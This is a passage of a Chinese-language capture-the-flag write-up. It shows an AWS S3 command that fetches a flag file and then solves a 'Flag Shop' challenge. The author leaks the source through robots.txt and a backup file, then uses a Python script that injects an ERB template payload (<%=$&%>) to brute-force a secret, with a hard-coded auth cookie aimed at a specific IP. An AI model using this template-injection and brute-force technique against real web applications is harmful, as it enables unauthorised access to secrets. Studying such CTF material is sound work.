 可以列出云上的一些文件,依然还没有找到flag。

于是本地装一下awscli 配下token看看吧

<https://www.anquanke.com/post/id/170342>

```bash
aws s3 cp s3://static.l0ca1.xyz/flaaaaaaaaag/flaaaag.txt ./flag.txt --region ap-northeast-1
```





### Flag Shop

通过 <http://47.110.15.101/robots.txt> 得到 <http://47.110.15.101//filebak>  进一步得到源码

分析源码，发现隐患点(没个卵用，还非要写上)

```ruby
unless params[:SECRET].nil?
  puts "[ma1] "+"#{params[:SECRET].match(/[0-9a-z]+/)}"
  if secret.match("#{params[:SECRET].match(/[0-9a-z]+/)}")
    puts "[flag] "+flag
  end
end
```



猜测是通过某种缺陷，来对secret进行盲注，进而读取secret，伪造 token，getflag？ 

 核心的代码是上面这里， 但如何才能构造盲注？

一开始怀疑是正则的效率问题，但是此接口仅允许get方式，对url长度有限制。

最终查阅资料可以发现ruby有几个全局变量。其中$&表示最近一次与正则表达式匹配的字符串。此时搭配之前一直很迷的SECRET，便可以爆破SECRET，脚本如下

```python
import requests

url = "http://47.110.15.101/work?name=%3C%25%3d$%26%25%3E&do=%3C%25%3d$%26%25%3E+is+working&SECRET={SECRET}"

SECRET ="ec55ce17b51f7f2588b3d2f09c821e6499984b09810e652ce9fa4882fe4875c8"


headers = {
	"Cookie": "auth=eyJhbGciOiJIUzI1NiJ9.eyJ1aWQiOiJhMDc4ZDU3ZC0wZjZmLTRhNTItODE1MC0yMGYyOTkzYzkxMTUiLCJqa2wiOjI4fQ.gQnZDaa3pKpldiD07vWsX65SO4Ioz5ZawOy5xJPNSEU;"
}

zidian="1234567890qwertyuiopasdfghjklzxcvbnm"
for jj in range(30):
	for i in zidian:
		test = SECRET + i
		# test = i + SECRET
		crackUrl = url.replace("{SECRET}",test)
		text = requests.get(crackUrl,headers=headers).text
		if("'"+test+" " in text):
			SECRET = test
			print("[SECRET] " + SECRET)
			break

```
